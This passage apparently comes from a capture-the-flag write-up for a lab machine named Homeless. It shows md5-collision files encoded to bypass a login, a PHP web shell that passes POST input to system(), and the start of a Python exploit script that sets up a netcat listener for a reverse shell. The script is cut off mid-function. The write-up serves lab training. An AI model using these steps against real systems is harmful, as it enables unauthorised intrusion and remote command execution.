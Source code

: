 ```py
```

Using this script is possible to encode each file to be used within an HTTP Post request. If you try, you'll see it's possible to login using any combination of the files:

```bash
username=$(python3 urlencode.py f1 | grep -v Urlencoded)
password=$(python3 urlencode.py f2 | grep -v Urlencoded)
code=$(python3 urlencode.py f3 | grep -v Urlencoded)
```

Finally, we can review the last file, `admin.php`, that is actually a bit disappointing:

```php
<?php
if($_SERVER['REQUEST_METHOD'] === "POST" && isset($_POST['submit'])){
    $cmd = (string)$_POST['command'];
    echo "<pre>";system($cmd);echo "</pred>";
}

?>
```

Yes, it is a web shell. To simplify the exploitation process, netcat (traditional with -e option) is already installed on Homeless; so, getting a reverse shell is simple as you can imagine.

##### Wrapping Up

Summarising, in order to exploit the application, we'll undertake the following steps:

1. Bypass authentication using a md5 collision
2. Use the "webshell-like" admin page to get a reverse shell

The completed exploit:

```python
#!/usr/bin/python3

import requests
import argparse
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import subprocess
import os, sys, re
import binascii
import string, hashlib, time

def proxy(flag):
    return {"http" : "http://127.0.0.1:8080", "https" : "http://127.0.0.1:8080"} if flag else None

def geturl(target=None, type=None):
    if type == "login":
        return "http://" + target + "/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php"
    elif type == "admin":
        return "http://" + target + "/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php"
    else:
        return None
        
def setup_listener(lport):
    print("[+] Setting up listener")
    try:
        if os.name == "nt":
            subprocess.Popen("start cmd /c nc.exe -lvp " + lport, shell=True)
        else:
            subprocess.Popen("gnome-terminal -- nc -lvkkp" + lport + "2>/dev/null", shell=True)
        time.sleep(1)
    except:
```
